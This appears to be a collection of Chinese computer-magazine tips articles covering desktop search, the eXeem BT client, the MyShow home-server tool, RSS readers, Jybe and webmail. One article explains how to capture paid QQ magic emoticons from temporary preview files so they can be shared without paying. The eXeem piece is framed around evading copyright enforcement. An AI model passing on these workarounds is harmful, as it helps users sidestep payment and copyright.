MTS 默认情况下只能索引位于“我的文档”中的文件以及 Outlook/OE 中的邮件正文，要开启它对整个硬盘文件以及邮件附件的支持，请选择“Indexing Options”菜单，切换到“Desktop Search”标签，在“Search locations”栏中勾选“Email and all hard disks”一项。当然为了节约检索时间，你也可以选择“Specific locations”并指定要检索的目录。勾选“Index email attachments”一项，设置完毕后单击“Rebuild Index”按钮。(见图1)此外， MTS 与 GDS、 YDS 不一样，它只有当你开启 Outlook/OE 时，才会对其中的邮件进行索引。



## 下一代BT软件来了

由于涉及版权问题，目前国内很多国外的BT站点都被迫关闭，不过BT的“共享精神”依然势不可挡。近日，著名的BT下载网站supnova.org推出了一款名为eXeem的软件，这款软件集成了BT和另外一款优秀的P2P软件Kazaa的优势，被称为“下一代BT软件”。笔者经过试用后发现，它的确名不虚传，如果你是追新一族，就一起看看它究竟强在哪里吧。

### 小知识

### eXeem的“前世今生”

去年年底，深受欢迎的BitTorrent文件（简称BT）共享网站Nova.org宣布停止它的BT链接服务。造成这样结局的原因，是美国电影协会（MPAA）针对互联网电影盗版向若干P2P服务器运营商提出了控诉。此后，SuprNova就开始和一家公司合作开发新的P2P软件，其名为eXeem，是一个基于BitTorrent的P2P分发系统。作为BT升级产品，它已经抛弃了种子服务器，这样可以在一定程度上避免版权组织的起诉和打击。现在eXeem已经进入公开Beta测试阶段。至于使用起来究竟感觉如何，请看下文介绍。

### eXeem小档案

- 软件版本：0.20 Public Beta
- 软件大小：2529KB
- 软件性质：免费软件
- 运行平台：Windows 9X/ME/2000/XP
- 下载地址：http://coffee.host.com/eXeem0.20.exe
- 汉化版地址：http://dla.pchome.net/internet/download/hy_eXeem.zip
- 软件备注：跟Kazaa一样，eXeem是一款AD-ware（带有广告程序的软件），如果你安装它，它默认会装上一款Toolbar软件。不过你可以到 http://www.downloadcounter.com/cgi-bin/download.pl?username=BitStream&account=1 下载去除了广告程序的Lite版本。

如果你安装的是原版的eXeem，在安装过程中“Select Components”（选择集成）一步请取消勾选“eXeem Internet Explorer Toolbar”一项（见图1）。


运行eXeem后，大家可以看到其界面非常清新，跟我们使用的BT客户端非常相似。在软件底部的任务栏上我们可以看到当前的用户数量（users）、文件数（files）、总共享文件容量（shared）。下面介绍一下功能和使用方法。

### 种子文件不再难找

eXeem不仅支持普通BT客户端的连接“.torrent”种子的功能，而且它的独特之处在于：

它提供了一个庞大的共享文件库，你不仅可以分类查询，也可以直接通过它来搜索其他人发布的文件，这样就免去了你四处寻找种子站点的麻烦。

### 分类查询：

切换到“New files”（新文件）标签，在“Show category”（显示分类）下拉列表中选择一个目录，比如Games、Movies等，再在“Sub category”（子分类）下拉列表中选择其下属分类，最后单击“refresh”（更新）按钮，你就可以看到所有符合条件的文件都在右边排列出来了。对每一个文件，我们都能看到它的文件大小、种子数（Seeds）、下载人数、评论（Comments），当然最好挑选种子数多的来双击下载了（见图2）。


### 小提示

### 面向父母的安全设置

选择“Options→Configuration”（选项→设置）菜单，在“appearance”（外观）（见图3）标签中勾选“Parental protection enabled”（开启父母保护）一项，并设置一个密码，这样eXeem会自动过滤掉不健康的内容，别人要想开启，必须知道密码方可。需要注意的是，eXeem与其他BT客户端不同，它对上、下载速度的控制数值-1代表无限制，大家可以切换到“downloading”标签设置。


### 搜索查询：

切换到“Search”标签中，输入关键字，还可以定制文件大小、种子数、所属分类等条件，单击“Search”进行检索。

### 上传文件一招制敌

“饮水思源”，我们在下载的同时也别忘记了自己的好东东上传与网友分享。选择“File→Publish file pack”（文件→发布文件包）菜单打开“Publish”（发布）窗口，在“path”栏选择上传文件，在“name”栏为其设置一个名字，并分别设置目录（category）、子目录（sub category）、语言（language）等属性，最后在“description”（描述）栏简单描述一下该文件，单击“Publish”按钮即可发布该种子（见图4）。


切换到“Transfers”（传输）标签我们就可以看到自己上传和正在下载的文件了，如果你想将某种子与你的好友分享，只需要在该文件上点击右键，选择“Copy eXeem link”（复制eXeem链接）将其地址复制到剪贴板，并发送给好友，好友收到后，只需在eXeem中选择“File→Open eXeem link”（文件→打开eXeem链接）菜单，将地址粘贴进去即可。这比普通的BT还需要传送一下种子方便得多。

### 小提示

有时我们不希望一直对自己上传的文件做种，可以设置一下：选择菜单命令“Options→Configuration”（选项→设置）菜单，切换到“seeding”标签，在“auto stop seeding”（自动停止播种）栏勾选“automatically stop seeding”（自动停止播种），并在“when share ratio becomes >=”（当共享率大于）栏设置一个数值（建议保持默认“2”），这样当文件的下载率达到该数值后，eXeem会自动停止做种。

### 常见问题解答

- 问：怎样在eXeem中添加新的下载？
答：eXeem使用像edonkey（电驴）的网址格式提供下载连接（如exeem://这种样式），只要输入别人提供的网址，就能自动开始下载。
- 问：如何最小化到系统托盘？
答：在“Option→Configuration→Appearance”（选项→设置→外观）中选择“minimize to system tray”（最小化到系统托盘）即可。
- 问：如何设置上下载速度限制？
答：和其他一些BT软件一样，eXeem分成全局和单个设置。
单个文件设置：“Option→Configuration→downloading→Per file settings”（选项→设置→下载→单个文件设置）
全局设置：“Option→Configuration→global limits”（选项→设置→全局限制）
- 问：eXeem需要开启一个端口（port）吗？
答：和其他P2P软件一样，eXeem也需要开启一个端口作为传输通道。你可以到“Option→Configuration→Network”（选项→设置→网络）中进行设置。

### 尘埃终落定——你该选择哪一款？

通过上面的介绍，不知道你是否已经有了自己的选择。综合看来，MTS对中文支持最好，而且功能比较强大，它的得分应该是最高的。不过笔者建议大家根据自己的实际情况来做取舍：推荐喜欢简洁明快的朋友，尤其是Google的拥护者使用GDS；推荐MSN Toolbar用户以及使用Outlook/OE发送邮件的朋友使用MTS；推荐常常需要查找英文文档；而且对桌面搜索具有发烧级兴趣的朋友使用YDS。附表3中列出的是前文中没有提到的特性对比情况。

### 附表3（特性对比）

| 特性 | GDS | MTS | YDS |
| :--- | :--- | :--- | :--- |
| 文件索引方式 | 在系统空闲时间自动索引 | 在系统空闲时间自动索引，或者手动索引 | 在系统空闲时间自动索引，或者手动索引，且支持对不同目录的不同定制 |
| 索引文件存放位置 | 不支持自定义 | 不支持自定义 | 支持自定义 |
| 结果关键字高亮显示 | 支持 | 支持 | 支持 |
| 结果缓存（cache） | 支持 | 不支持 | 支持 |
| 搜索结果排序 | 支持按照关联度和时间排序 | 支持按照文件类型、时间、名称等排序 | 支持按照文件类型、时间、名称等排序 |
| 使用稳定性 | 好 | 好 | 不稳定，偶尔遇到非法错误 |

（四川 飞翔鸟）

## 五分钟 你的电脑变成服务器

如果想在网上安家落户，你会面临以下选择：要么租用虚拟主机，这样既要花钱而且还得忍受服务商的诸多限制（如不能放聊天室程序等），要么在本机架设服务器，这样又要求你的电脑拥有真实IP或安装动态IP解析程序，而且一旦你处于连公网IP都没有的小区网络或局域网中，这将变成几乎不能完成的任务。难道真的就没别的办法了？试试这款名为MyShow工具箱的软件吧！

MyShow工具箱小档案
- 软件版本：1.56
- 软件大小：1434KB
- 软件性质：免费软件
- 适用平台：Windows 9X/2000/XP
- 下载地址：http://www.myshow.cn/download/myShowInst.exe

### MyShow 工具箱有何神奇之处？

MyShow 工具箱是一款可以帮助我们在自己的电脑上架设个人网站的免费软件，与其他同类软件相比，它有以下优势：

- ★只要你的电脑连接到Internet，你就可以马上建立自己的个人站点。
- ★你的硬盘有多大，你的站点空间就有多大，无需上传网页、图片等站点文件，所有文件存放在本地硬盘中。
- ★支持ASP页面，支持Access、SQL数据库，且几乎不需任何设置。
- ★自带能够实现聊天室、论坛、网络U盘，甚至远程控制、远程桌面功能的插件，安装非常简单。

### 安装实战！将个人电脑打造成服务器

第一步：注册MyShow账号。打开http://www.myshow.cn/register.asp为你的站点注册，需要注意的是在“网站名称”栏代表你的用户名（见图1），申请完毕后你将获得一个http://username.myshow.cn的域名，这也是你的个人网站的访问地址。



第二步：登录并启动站点服务器。安装MyShow工具箱后运行，在欢迎界面中勾选“我已有‘麦秀空间’账号”，单击“完成按钮”，这时候软件会弹出一个“下载插件”窗口，不必理会它，单击“关闭”按钮直接进行软件主界面。在“基本设置”栏中分别填写“二级域名”（也就是你的账号）、“网站名称”、“登录密码”，设置完毕后单击“运行”按钮（见图2），你的个人网站服务器便架设完毕了！试试在浏览器中输入http://username.myshow.cn访问一下你的站点，看看是否能打开。

小提示
站点支持访问者的注册功能，在打开页面后用MyShow账户登录，进入“麦秀用户管理”链接，再点击页面左边的“设定用户权限”，可以指定本站点注册用户的权限，比如让某个用户有管理本站的权限等。

第三步：将自己制作的主页加入网站。上面我们能够访问的站点只是MyShow提供的默认风格首页，要使用自己制作的主页文件，首先单击“插件下载”，在弹出的窗口中点击“麦秀链”（见图3），稍等片刻即可下载完毕。接下来在“插件管理”栏选中“麦秀链”，将其添加到“已经安装的”插件列表中。最后将自己制作的所有主页文件拷贝到MyShow工具箱安装目录下的wwwroot文件夹中，现在就可以在Internet中访问自己的主页啦！





小提示
我们制作的主页的首页文件名必须为default.htm或default.asp，否则无法访问。如果制作技术太菜，那就使用MyShow准备好的模板页面吧，在MyShow工具箱的“网站模板”栏选择一款自己喜欢的网页模板即可，使用模板的用户不必再安装麦秀链也可实现页面的正常访问。

### 使用 MyShow 站点插件 让网站功能酷起来

根据上面操作，大家已经建好了自己的个人站点了。想不想让它提供更好的功能呢？那就使用MyShow提供的站点插件吧，只需点几下鼠标就可以完成所有设置。目前MyShow提供的扩展插件包括网络相册、网络硬盘、虚拟目录、论坛和聊天室、远程控制、远程桌面等，笔者为大家介绍其中三个最常用的。

#### 1. 网络硬盘

功能：“网络硬盘”插件能让你将硬盘中的文件共享到你所架设的站点中去，供网友浏览下载。

单击MyShow主界面上的“插件下载”，在弹出窗口中单击“麦秀网络硬盘”，下载完毕后，软件弹出“设置”窗口，我们需要设置欢迎文字，如“欢迎使用我的网络硬盘”，接下来大家将要共享的文件拷贝到MyShow安装目录下的Modules\share-1\SharedFolder文件夹中即可。网友既可以通过你的个人站点首页访问你的网络硬盘，也可以直接通过http://share.username.myshow.cn/（见图4）访问。



#### 2. 远程控制

功能：如果出门在外，想要管理一下自己的站点甚至远程操作自己的电脑，该插件都可以实现，而且一切操作都是直接在浏览器中完成。

跟“网络硬盘”插件类似，首先单击MyShow主界面上的“插件下载”，在弹出窗口中单击“麦秀远程控制”链接，下载完毕后同样需要设置欢迎文字。重新启动MyShow工具箱后进入自己的主页，你会发现页面的右上角多出了一个名为“麦秀远程控制”的链接，进入它以后你就可以通过客户端和浏览器两种方式来远程控制MyShow工具箱所在的计算机了（见图5）。以用浏览器控制为例，点击“使用浏览器控制”链接，页面会载入一个Java Applet并弹出“VNC Authentication”窗口，在“Password”栏中输入你的MyShow注册密码后，稍等片刻你就可以看到远端的计算机桌面了。



小提示
如果没有看到弹出的Java Applet窗口，请在浏览器中选择“工具→Internet选项”菜单，切换到“安全”标签，点击“自定义级别”按钮，将“脚本”栏下面的“Java小程序脚本”一项设置为“启用”，最后重新加载页面即可。

#### 3. 论坛和聊天室

功能：安装该插件后你将拥有一个功能强大且支持定制的论坛，而且该论坛还附带了一个聊天室，可以让你站点的访问者互相交流。

同样下载安装“麦秀轻松论坛”插件并重启MyShow工具箱，我们会在站点上看到一个“麦秀轻松论坛”的链接，而且首页还会显示当前最热门的帖子。默认情况下该论坛设置了“谈天说地”、“轻松贴图”、“站务管理”三个版块，要进行添加或删除版块、指定版主等操作，你必须在页面中以你的MyShow账户登录。进入任意版块后，点击“版内聊天”即可与网友海阔天空地神聊了。

怎么样？利用MyShow工具箱来架设自己的个人站点是不是操作又简单，功能又强大？赶紧去down一个来玩玩吧。

（四川 Orange）

## QQ魔法表情 免费送给你

QQ2004II中新增了QQ魔法表情，这些活泼可爱的魔法表情真让人爱不释手，或喜或悲，皆有一番甜蜜的滋味在心头。可是，不幸的是现在大部分QQ魔法表情开始收费了，只要在魔法表情窗口一点，Q币就悄悄地溜走了，真让我等穷人心寒。现在给你一点安慰：虽然不能免费给自己的QQ好友发送表情，但却可以收藏下来，作为Flash动画在本地保存，也算一种享受吧。

### 魔法表情是这样炼成的！

QQ魔法表情实际上是一段很小的FLASH动画，它是通过QQ自带的一个“MagicFlash”程序来进行播放，当运行MagicFlash.exe时，程序把当前屏幕的固定区域截取下，做这个Flash的背景，这样这个Flash的背景就看似透明的了。

经过笔者观察实验发现，当预览魔法表情的时候，在“QQ安装目录\magicface”文件夹中就会出现一个以“target423”类似方式命名的Flash文件，双击运行。由于预览魔法表情时，Flash文件只是暂存，播放完毕便会被删除，所以我们得想办法将它复制出来。

### 魔法表情就这样被复制！

- 第一步：打开“QQ安装目录\magicface”文件夹，如果发现此文件夹内有一些乱码文件名的Flash文件，将它们全部删除，这样可以避免影响我们复制我们需要的文件。
- 第二步：在QQ中双击任意QQ好友，点击表情按钮并切换到“魔法表情”标签，点击免费的QQ魔法表情向好友发送（灰色名称的魔法表情为免费表情）。如果你想要的是收费的魔法表情，那么在想要保存的QQ魔法表情上点击右键，执行“预览”命令，稍等片刻，这个可爱的魔法表情就会显示到你的屏幕上（见图1）。



- 第三步：这时注意观察magicface文件夹里面的内容，如果发现出现了以“target”开头命名的Flash文件马上选中将它复制下来（快捷键Ctrl+C），比如“target270.swf”，迅速粘贴到桌面或其他文件夹（快捷键Ctrl+V）。现在双击这个target270.swf文件，已经能在Flash播放器中顺利播放了。

### 小提示 透明播放照样能成功！

魔法表情是利用QQ自带的“MagicFlash.exe”程序播放的，我们用它做为SWF文件的默认播放器就搞定了。只要按照本刊2005年第3期《有QQ还要Flash播放器干啥？》一文中的方法将SWF文件与“MagicFlash.exe”关联即可。

现在一切搞定，欣赏自己保存下来的QQ魔法表情吧，当然要通过QQ聊天窗口发送，需要付费才能使用的，你只要通过其他方式传送就可以了。

### 魔法表情 让你一次看个够！

在聊天窗口中查看魔法表情，每次都要从右键中选择“预览”，不方便不说，一旦不小心用左键点了，白花花的Q币就溜走了，很是危险。有没有安全又方便的方法呢？

当然有，你只要到http://herboy.vip.myrice.com/text1/qqzuist.exe下载一个“QQ魔法表情查看器”的工具，就能达到你的要求。

下载后将其安装到QQ程序目录（例如：C:\Program Files\Tencent\QQ）。安装完毕后，双击桌面图标“QQ魔法表情”就可以查看了。在主窗口中点击“聊天记录”按钮，你以前接收到的所有魔法表情都在列表中显示出来了，只要用鼠标单击它就会“返回到历史”了（见图2）。



软件除了可以查看以前QQ好友给我们发送的表情符号，它还内置了四百多个QQ魔法表情，只要单击“浏览模式”按钮，在打开的窗口中即可欣赏这些魔法表情了，直接点击，它将会直接显示在屏幕最前端。目前软件还不支持直接将软件中收藏的魔法表情图标发送给对方，不过收藏和浏览的目的已经达到了。

（河北 闫艳力 果瓜）

## 玩转RSS 天下信息随心看

近两年来，网络信息可谓爆炸，人们期待能够像浏览报纸标题一样快速获取各类新闻摘要，然后再对感兴趣的新闻仔细阅读，再加上Blog这种新兴的网络服务使网络信息急剧膨胀，于是很早就出现的技术开始普及和流行，它就是RSS！

如今，不仅是Blog，很多新闻、搜索站点都开始对RSS提供支持，比如百度、新华网等。如果你还不明白RSS究竟是个什么东东，那该补补课了。如果你已经对RSS有一知半解，本文就来告诉你如何玩转它。等你真正明白了RSS的价值，你会发现以往“打开浏览器→输入网址→访问网站”的浏览模式是多么低效！

### 什么是RSS？

RSS有好几种解释：Rich Site Summary（丰富站点摘要）、RDF Site Summary（RDF站点摘要）或Really Simple Syndication（真正简单的辛迪加），不管究竟叫什么，它的作用是发布网站内容摘要，也就是用一个页面显示网站最近更新的新闻标题，标题下再列上一些内容摘要，如果感兴趣只要单击链接即可进入网站查看全文，而RSS使用的格式是XML。

其实RSS早在1999年就创建出来了，由当时著名的网景公司（就是大名鼎鼎的Netscape浏览器的制作公司）推出，该公司设计它的用意是允许将许多信息源的内容聚集到Netcenter门户网站中（这个门户网站现在已经不存在了）。但由于在发展中出现了分歧，导致目前RSS有0.92、1.0、2.0三个版本，而这三个版本又分别由不同组织提出，各个版本之间并不互相兼容。好在目前主流的RSS阅读器都支持它们，从而让我们可以很自由地订阅各个网站提供的RSS服务。

对于普通用户来说，玩RSS，其中就是订阅网站提供的RSS服务。至于如何提供RSS服务，那是XML开发者的事情。跟普通网页URL一样，支持RSS的网站会对每个RSS服务提供一个RSS阅读地址，这种地址一般是以“XML”结尾的，如果你在某个网站首页看到的标识，一般只要单击它们或是其后的链接就能得到RSS阅读地址了，将其添加到RSS阅读器中，才能解释并使用它。

目前主流的RSS阅读器可以分为三类：让浏览器支持RSS的插件、专门的RSS阅读软件、网站提供的RSS阅读服务。下面笔者在这三类中选择三个比较优秀的产品分别加以介绍。

### 让Maxthon浏览器支持RSS

Maxthon本身并不支持RSS功能，不过可以借助一款名为News Cast的插件使其能够阅读RSS资源。

- 第一步：首先到http://forum.maxthon.com/forum/index.php?showtopic=11746下载News Cast插件安装压缩包，将其解压缩到Maxthon安装目录下的plugin文件夹中。
- 第二步：重启Maxthon，软件会提示搜索到一个新插件。由于News Cast是个侧边栏插件，确认后，可以在Maxthon中选择“查看→侧边栏→News Cast-RSS Reader”菜单来将其调用出来（见图1）。
- 第三步：News Cast中已准备了一些RSS链接，不过都是老外们常常使用的，下面来添加自己喜欢的RSS资源。展开“Custom RSS Feeds”项，单击“Add New RSS Feed”按钮，接下来会弹出一个提示窗口，首先要求输入要添加的RSS资源的名字（不支持中文，请填写英文名），接下来会提示输入该RSS资源的地址。添加成功后勾选刚刚添加的那些RSS资源，单击“Save Changes”（见图2）。

小提示 如果想从News Cast的面板中删除那些默认添加的英文站点，可打开Maxthon\plugin\NewsCast\XML目录，删除其中的RSMAXTHONNEWSFEED.xml、RSS_EWEEK.xml、RSS_GS.xml、RSS_PCW.xml、RSS_RE.xml、RSS_YAHE.xml、RSS_YAHN.xml，再用记事本打开Maxthon\plugin\NewsCast\Includes目录下的NewsConfig.js，删除相关项目即可。

- 第四步：这时只需单击插件界面上的“Refresh Now”按钮就可以看到所有勾选了的RSS内容了，单击内容链接即可查看其指向的页面（见图3）。





周博通小档案

| 项目 | 内容 |
| :--- | :--- |
| 软件版本 | Beta.9.4 |
| 软件大小 | 2.7MB |
| 软件性质 | 免费软件 |
| 适用平台 | Windows 98/Me/2000/XP |
| 下载地址 | http://home.hnwh.com/ |

## 周博通让你快速知晓天下事

RSS 阅读器非常繁多，许多人使用的是 FeedDemon，但它是共享软件，只让你用 30 天。其实国产免费软件——周博通一点也不比 FeedDemon 差。

- 我们可能会对某个消息特别关注，比如与“microsoft”有关的新闻，News Cast 允许添加多个关键字，它会自动将包含这些关键字的 RSS 条目放在插件界面的顶端单独显示。添加关键字的方法是：展开“Alerts”项，单击“Add New Alert”按钮，在弹出的窗口中输入关键字。
- 可能有些朋友不是 Maxthon 的用户，这就需要大家去自行寻找相关插件来支持，到 Google 中搜索一下，或许你有收获。其中 IE 的 RSS 插件 Plus! 的下载地址为 http://www.plusl.com/download.aspx，而 Avant Browser、Firefox 等多页面浏览器则直接带有 RSS 阅读功能。

## 实例 1：快速上手，天下资讯尽收眼底

安装后，你会发现周博通已经内置了非常丰富的 RSS 资源，国内外的各类著名的资讯网站几乎一网打尽（见图4）。而且该软件能够自动每隔 20 分钟更新所有频道，如果有哪个频道有了新的摘要，在系统托盘处会弹出提示框。



周博通支持将新闻放入收藏夹，以便日后快速翻阅。为了便于管理，建议在左侧窗格中单击“收藏夹”标签，接着分别右击预先设置好的分类，并选择“删除”，然后再次在空白处右击，选择“新增 RSS 组别”，在弹出的对话框中输入“软件下载”等类别名称，依照此方法创建自己的收藏分类，比如“国内新闻”、“国际新闻”等。同时你还可以右击创建的分类并选择“新增 RSS 子组别”，添加子分类。

完成后返回“RSS 频道”标签，查看相关频道，当你看到某个自己比较感兴趣的新闻，则可在右侧上方的新闻标题列表中右击新闻标题，然后选择“添加至收藏夹”，在弹出的如图5窗口中选择要保存的分类，然后单击“收藏文章”按钮即可完成文章的收藏。

## 实例 2：在浏览器中添加频道和收藏网页

在安装周博通后，会在 IE 的右键菜单中添加相应的选项，使你能够快速将 RSS 网页添加至频道，以及将任意网页加进收藏夹，这一点非常值得称道，使你不会错过任何精彩的网页内容。



比如进入 http://www.snapfiles.com/feeds/，这里列出了网站所提供的 RSS 频道的链接，在“Feed URL”后右击相应的网址（如 http://www.snapfiles.com/feeds/snapfiles.xml），在弹出菜单中选择“将链接添加到 RSS 频道”，接着打开周博通窗口，便会出现“增加 RSS 频道”的窗口。根据链接的类别选择频道分类，然后再单击“验证频道地址”按钮，如果链接没有问题，在左下角会显示“RSS 地址验证成功”，并自动填写频道名称。接着单击“加入列表”，频道添加成功。

收藏网页更为简单，只要在任意网页上右击并选择“将当前网页加入 RSS 频道收藏夹”，该网页即被收藏至收藏夹。

KlipFolio 小档案

| 项目 | 内容 |
| :--- | :--- |
| 软件版本 | 2.6 |
| 软件大小 | 587KB |
| 软件性质 | 免费软件 |
| 适用平台 | Windows 98/Me/2000/XP |
| 下载地址 | http://www.newhua.com/cfan/200505/KlipFolio.rar |

## 实例 3：订阅百度关键词 时刻掌握关心资讯

百度的新闻子站也提供了 RSS 服务，该网站会搜索 1000 多个新闻源，因此你可以利用它监控关于某个关键词的各种新闻资讯，这对于及时掌握竞争对手情况非常有帮助。比如：我们想时刻了解关于“《电脑爱好者》”的新闻，只要通过以下设置即可。

进入 http://news.baidu.com/rss/，在搜索框中输入“《电脑爱好者》”，回车后即返回搜索结果，右击左上角的 XML 图标并选择“将链接添加到 RSS 频道”，打开周博通，将其归入“百度新闻搜索”分类即可。

## KlipFolio 把新闻放到桌面上

有心的朋友在浏览一些网站时会发现：它们除了提供 XML 或是 RSS 图标外，还有 KLIP 图标，它其实也是一个非常流行的 RSS 阅读器，相比前面提到的软件，小巧、精致是其显著特点，运行后会在桌面上显示一个漂亮的菜单条（见图6）。



**软件备注：** 安装完成后，将压缩包中的 Chinese.lang 保存到软件安装目录的 language 文件夹下，接着运行软件后，右击系统托盘的图标，选择“Show Preferences”，再进入“Text”选项卡，在“language”项的下拉菜单中选择“简体中文”即完成汉化。

- KlipFolio 的频道添加方法主要有三种：
    1. 首先如果某个网站提供了其频道文件（在网站有图标），只要下载并运行后即可添加。
    2. 第二种方法是到 http://www.klipfarm.com/farm.php 选择感兴趣的网站，然后下载其频道文件，你可以直接进入 http://www.klipfarm.com/farm.php?page=dir_home&lang=zh，这里是所有中文网站的频道列表，点击其中感兴趣的网站打开其页面，接着单击“Add this klip”即可下载并添加频道文件。
    3. 但以上两种方法毕竟资源有限，许多国内网站提供了 RSS 链接，却没有提供 Klip 的频道文件，此时你可以先下载 http://www.klipfarm.com/beta/download.php?kid=9168/feedviewer.klip，这样在软件界面中会增加一个新项“To configure this Feed Viewer Klip”，单击它后打开设置窗口，将网站的 RSS 链接地址（比如 http://www.snapfiles.com/feeds/freeloads.xml）输入到“Feed”选项卡的文本框即可（见图7）。



如果你要添加多个 RSS 链接，则可进入 KlipFolio 安装目录下的 myklips 子文件夹，双击 feedviewer.klip 即可添加刚才出现的新项。

KlipFolio 提供有许多功能频道，比如检查 Hotmail 及 POP3 邮箱、天气预报、世界时钟、FTP 服务器监视、文件夹监视等。另外，如果你拥有网站，并希望使用 KlipFolio 的服务，可以参考 http://www.seren ce.com/provider.php?page=guides_home 来制作频道文件。



## 网站提供的 RSS 阅读服务

如果你嫌安装专门软件有些“小题大做”，那就使用某些网站提供的类似服务吧。它们的功能都比较简单，如果要求不高，还是非常值得一用的。提供这类服务的网站中最著名的是 bloglines (http://www.bloglines.com)，根据国外某机构统计，目前 RSS 使用者中，有 37.8% 的用户使用的便是 bloglines 的服务。不过由于它是英文站点，可能对多数国内的用户使用上会有些不方便，笔者为大家推荐另外一家——“牛啦”，它的域名很好记：http://www.niu.la。

大家是不是觉得每次看到喜欢的网页或 RSS 资源，都要去登录“牛啦”并进入相关页面才能添加成功，实在太麻烦了？其实可以“牛啦”集成到右键菜单中去，这样只要在要收集的网页中单击右键，选择“加入 niu.la”即可实现快速添加。其方法是，编辑以下内容，将其保存为 *.reg 文件，最后双击导入注册表，再重启 IE 即可：

```
REGEDIT4
[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt\加入 niu.la]
@="http://www.niu.la/access.k?method=access"
(如果是 Windows XP，则将“REGEDIT4”改为“Windows Registry Editor Version 5.00”)
```

如今网络与电脑的资源共享种类越来越多，从最早的文件打印机共享到如今的共享 HUB 共享带宽等，种类繁多。最近笔者发现了一个小浏览器插件——Jybe，通过它可以实现浏览器浏览信息的共享，配合软件聊天界面或一些第三方的语音软件还能实现远程多媒体教学。

## 和 MM 一同看网去

Jybe 小档案

| 项目 | 内容 |
| :--- | :--- |
| 软件版本 | BETA 版 |
| 软件大小 | 688 KB |
| 软件性质 | 免费软件 |
| 运行平台 | Windows 2000/NT/XP/2003 |
| 下载地址 | 需先在网站注册才能下载，注册地址为 http://www.Jybe.com/download/register.aspx |

**任务描述：** 享受一种边和 MM 聊天边看网页的生活，在家的我和网络另一端的 MM 一起看同一个网页，在看网页的同时如果遇到电脑问题，MM 还可以通过 Jybe 内置的聊天窗口和我进行实时交流。

**实现方法：**

第一步：首先需要在自己和 MM 的电脑上安装 Jybe。方法是到 http://www.Jybe.com/download/register.aspx 这个地址注册一下，然后页面会自动跳转到下载界面（见图1）。需要特别注意的是，同一个邮箱不能反复注册，否则不会转到下载页面而仍然停留在注册页面。

- **★小提示**
    - 在注册邮箱处可以随便输入一个假邮箱，并不会影响下载 Jybe 程序。
    - Jybe 提供了两个版本浏览器的插件，分别为 IE 和 Firefox，我们根据实际情况进行下载即可。

第二步：运行下载回来的 Jybe.MSI 进行安装。就会把该插件安装在你的浏览器中，下面以 IE 浏览器为例介绍如何使用 Jybe 实现浏览器的共享，对于 Firefox 的使用方法与此类似，不再介绍。

第三步：在你的电脑启动 IE 后会发现出现了一个 Jybe 工具栏，点“CREATE SESSION”来创建一个会话。随便输入自己的姓名和会话名，只要不与别人的重复即可。

- **★小提示**
    - 这里输入的姓名和会话名可以是任意的，每次都可以不同。
    - 如果 IE 工具栏上没有 Jybe 的按钮，在工具栏上点右键，勾选“Jybe”即可。另外，浏览器安全设置不要设置过高，应该允许工具栏的显示。

第四步：当出现如图2所示界面，就说明在你电脑上的 Jybe 已经连接成功了。然后 MM 也在她的电脑上启动 IE 选择“JOIN SESSION”，然后输入用户名和刚刚建立的会话名称就能加入该会话了。画面右边 SESSION USERS 出现了两个用户，表明两个人已经建立好连接，可以开始共享浏览器了。

第五步：当 MM 浏览一个新网页时，我这边不做任何操作，IE 也会马上转到这个网页，同样我浏览一个新网页远在他方的 MM 也会马上看到网页信息，而且两人还可以通过 Jybe CHAT 来交流。好玩吧？





**小编有话说：** 经过作者和众多 MM 的多次测试，发现通过 Jybe 共享浏览的网页效果还不错，一方网页信息全部加载完毕后另一方的浏览器也会马上跳转到该页面，并且任何一方访问了新页面都会在另一方显现出来，实时和互动两方面效果都很好。不过，软件目前还存在一些缺点，比如只能共享浏览的 HTTP 网页，当一方浏览本地文件或 FTP 等其他协议的站点时另一方会出现浏览器报错的提示。此外，聊天时不能使用中文，否则会出现乱码。

## 送你六招 玩转 Web 邮箱

许多人用 E-mail 客户端软件（比如：Foxmail、OE 等）收发邮件，很少会登录到邮箱提供商提供的 Web 邮箱，也就是直接进入类似 http://mail.163.com 的网站，通过网页来接收和发送邮件。其实 Web 邮箱中有不少体贴的增值服务，比如：反垃圾邮件、接收多个 POP3 邮箱、地址簿等，利用它们可以让你的邮箱使用更精彩！

### 第一招：筑起反垃圾邮件的第一道墙

前两期我们专门介绍了如何与垃圾邮件做斗争，但那都是在你的电脑上进行的，其实现在许多邮箱本身就具有防垃圾邮件功能，可以在邮件进入邮箱前就自动进行体检，将垃圾邮件防堵在邮箱之外。因此，即使你不使用 Web 邮箱收取邮件，也推荐将其开启，这样会有效降低垃圾邮件的到访率。配合方便的“拒收”按钮可以快速将多个邮件的发件人地址加到黑名单中，从此再也不会受到它们的骚扰。下面以 163.com 免费邮箱为例说明。

首先在 Web 邮箱中点击“选项”或“设置”的链接（比如：163.com 邮箱为页面上方的“选项→更多选项”），在打开的页面中点击类似“反垃圾级别”的链接，将“垃圾邮件处理”级别设置为“中级”（见图1）。



- **★小提示**
    - 在选项中一般还会有“黑名单”（手工添加垃圾邮件的邮件地址）、“白名单”（好友的邮件地址）、“过滤器”，对于黑白名单我们建议不用理会它们，因为添加并不方便。目前许多垃圾邮件都会伪造发件人地址，对于它们，你可以利用“过滤器”的“主题”、“邮件接收者”等条件设置高级规则，从而躲避更狡猾的垃圾邮件。
- 在垃圾邮件猬集的今天，强烈推荐你经常到 Web 邮箱接收邮件，并将垃圾邮件的发件人扔进黑名单，这比在 Outlook、OE 等软件中设置更为好用，因为以后邮件服务器发现某个邮件的发件人在你设置的黑名单中，就会自动拒绝接收，连你的收件箱都进不去。进入“收件箱”，勾选那些垃圾邮件，然后单击上面的“拒收”按钮，这样便进入了“黑名单设置”页面，接着按下“添加”按钮，最后再按“确定”按钮即可完成。

### 第二招：信件定时发送

由于工作繁忙，你可能经常会忘掉一些重要的事情，比如：某位朋友的生日到了，却没有及时寄去电子贺卡等。而网易等邮件提供商的 Web 邮箱一般都提供有定时发信功能，从而让你可以提前写好邮件，在时间到达后自动帮你寄出。

按下“写邮件”按钮，在打开的邮件编辑窗口中写好邮件，在最下方有个“定时发信”项，填写好发信的时间后，按下“定时发信”按钮即可（见图2）。



如果想对设置的定时信件进行修改，只需在页面左侧点击“草稿”进入草稿箱，然后打开相应信件进行修改即可。

